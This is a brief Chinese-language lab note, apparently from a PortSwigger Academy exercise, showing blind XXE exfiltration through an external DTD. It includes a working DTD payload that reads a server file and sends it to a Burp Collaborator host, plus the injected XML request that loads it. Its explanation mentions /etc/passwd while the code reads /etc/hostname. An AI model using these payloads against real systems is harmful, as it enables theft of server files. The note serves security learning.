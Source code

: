 ## 盲打xxe时，为了将敏感数据带出，可以使用外部dtd文件



## 1. 首先服务器部署dtd文件，poc内容：

```javascript
<!ENTITY % file SYSTEM "file:///etc/hostname">
//敏感数据保存地址
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://m0nto7pg0wegiq1yunxknsnullrcf1.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

该DTD执行以下步骤：

- 定义名为的XML参数实体file，其中包含/etc/passwd文件的内容。

- 定义一个名为的XML参数实体eval，其中包含另一个名为的XML参数实体的动态	声明exfiltrate。该exfiltrate实体将通过使含有的值的HTTP请求到攻击者的web服务器进行评价fileURL查询字符串内的实体。

- 使用eval实体，这将导致exfiltrate执行实体的动态声明。

- 使用exfiltrate实体，以便通过请求指定的URL来评估其值。



## 2. xxe，访问攻击服务器部署的dtd文件

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://ac6f1fce1f241d918045d10f01e3006b.web-security-academy.net/exploit.dtd"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



![](images/2B3899131D7F4032A752B4885523F872clipboard.png)



## 3. burp collaborator客户端接收到file:///etc/hostname内容

![](images/C5AB6C9E83864E27863535AE09B0D862clipboard.png)

